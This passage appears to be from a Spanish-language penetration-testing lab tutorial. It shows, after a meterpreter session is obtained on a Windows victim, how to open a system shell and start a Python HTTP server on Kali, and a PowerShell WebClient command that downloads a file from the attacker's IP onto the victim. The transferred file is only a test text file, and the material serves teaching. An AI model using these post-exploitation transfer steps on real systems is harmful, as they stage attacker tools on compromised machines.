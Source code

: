 Ya obtendremos la `shell`, ahora vamos a poner en practica la transferencia de archivos por la `red`.

Antes para no tener el `prompt` de `meterpreter` vamos a utilizar la `shell` de `Windows` poniendo el comando `shell` y veremos esto:

```
meterpreter > shell
Process 5648 created.
Channel 1 created.
Microsoft Windows [Versi�n 10.0.19045.3803]
(c) Microsoft Corporation. Todos los derechos reservados.

C:\Users\empleado2\Desktop>
```

Ahora en `kali` vamos a crear un directorio donde vayan a estar los ficheros que queremos transferir:

```shell
mkdir transfer
cd transfer/
echo "texto de prueba" > test.txt
```

### Python Server

Ahora la primera forma de transferir un archivo seria utilizando `python` creando un servidor del mismo de forma temporal y pasarnoslo a traves de la `red`.

> Python2

```
python2 -m SimpleHTTPServer
```

> Python3

```
python3 -m http.server
```

Si seguidamente le indicamos un numero estaremos especificando el puerto en el que queremos abrir el servidor, pero si lo dejamos por defecto se abrira en el puerto `8000`, lo mismo para el `python2`.

Ahora teniendo el servidor abierto en la misma `red` que la maquina victima, si nos vamos al `WS02` con interfaz grafica, abriremos un `PowerShell` y ejecutaremos el siguiente comando:

```powershell
(New-Object System.NET.WebClient).DownloadFile('http://192.168.5.205:8000/test.txt', 'C:\Users\empleado2\Desktop\test.txt')
```

Veremos lo siguiente:

<figure><img src="../../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>
